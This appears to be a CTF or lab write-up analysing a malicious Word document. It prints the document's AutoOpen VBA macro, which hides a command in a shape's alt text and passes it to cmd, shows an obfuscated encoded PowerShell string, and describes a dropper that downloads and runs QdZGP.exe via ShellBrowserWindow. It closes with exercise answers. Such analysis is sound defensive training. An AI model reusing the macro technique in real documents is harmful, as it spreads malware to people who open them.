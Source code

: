 ```vb
Sub AutoOpen()
On Error Resume Next
  Set shapeHandle = Shapes("h9mkae7")
  VBA.Shell# "CmD /C " Replace(shapeHandle.AlternativeText + "", "[", "A") , 0
End Sub
```

**Explanation:**  
The macro retrieves the `AlternativeText` property of a Shape object named "h9mkae7" and replaces all instances of "[" with "A". The resulting string is passed to `cmd.exe` via `VBA.Shell`.

Using `oledump.py` with an ad-hoc YARA rule, we extract the command stored in the Shape object's alt text:

```bash
parrot@parrot:~$ oledump.py -y "#s#h9mkae7" attacker1_2.doc 
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:     13859 '1Table'
               YARA rule: string
...snip...
```

Extracting strings from stream 4 reveals the encoded PowerShell command:

```bash
parrot@parrot:~$ oledump.py -s 4 -S attacker1_2.doc
h9mkae7
P^O^W^E^R^S^H^E^L^L ^-^N^o^P^r^o^f^i^l^e^ -^E^x^e^cutionPolicy B^^^yp^ass -encodedcommand J[Bp[G4[cwB0[GE[bgBj[GU[I[[9[C[[WwBT[Hk[cwB0[GU[bQ[u[...
...snip...
```

---

#### **Code Analysis**  
The decoded PowerShell script performs the following actions:

1. **WebClient Creation:**  
   Creates an instance of `WebClient` to make HTTP requests.

2. **C2 Communication:**  
   Downloads additional payloads from attacker-controlled domains and IPs.

3. **Executable Dropping:**  
   Saves a downloaded executable to `C:\ProgramData\QdZGP.exe`.

4. **Execution via COM Object:**  
   Executes the dropped executable using the `ShellBrowserWindow` COM object.

**Observations:**  
- **Q1:** What is the malicious C2 domain you found in the maldoc where an executable download was attempted? *(Answer based on analysis.)*  
- **Q2:** What executable file is the maldoc trying to drop? `QdZGP.exe`.  
- **Q3:** In what folder is it dropping the malicious executable? `C:\ProgramData`.  
- **Q4:** Provide the name of the COM object the maldoc is trying to access. `ShellBrowserWindow`.  
- **Q5:** Include the malicious IP and the PHP extension found in the maldoc. *(Answer based on analysis.)*
